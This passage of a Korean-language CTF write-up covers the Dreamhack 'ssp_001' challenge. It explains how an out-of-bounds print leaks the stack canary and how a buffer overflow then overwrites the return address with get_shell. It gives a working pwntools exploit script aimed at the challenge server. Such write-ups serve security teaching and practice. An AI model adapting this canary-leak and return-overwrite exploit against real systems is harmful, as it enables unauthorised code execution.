 ```bash
[P]rint the box
[E]xit
> P
Element index : 131
Element of index 131 is : 61
```

<br>
<br>


### 버퍼 오버플로우

메뉴 `E`를 이용하면 `box`에 원하는 크기만큼 입력을 할 수 있어 버퍼 오버플로우가 발생합니다. 이를 이용해서 `RET`를 `get_shell`로 덮으면 쉘을 띄울 수 있습니다.

```bash
'A' * 64 + canary + 'A' * 8 + get_shell
```


<br>
<br>


### 익스플로잇 코드

```python
from pwn import *

def slog(name, addr):
  return success(": ".join([name, hex(addr)]))


#context.log_level = 'debug'

p = remote("host3.dreamhack.games", 9485)
e = ELF("./ssp_001")

get_shell = e.symbols['get_shell']


# Canary Leak
canary = b""

i = 131
while i >= 128:
  p.sendlineafter("> ", 'P')
  p.sendlineafter("Element index : ", str(i))
  p.recvuntil("is : ")
  canary += p.recvn(2)
  i = i - 1

canary = int(canary, 16)
slog("canary", canary)


# BOF
payload = b'A' * 64
payload += p32(canary)
payload += b'A' * 8
payload += p32(get_shell)

p.sendlineafter("> ", 'E')
p.sendlineafter("Name Size : ", str(1000))
p.sendlineafter("Name : ", payload)

```
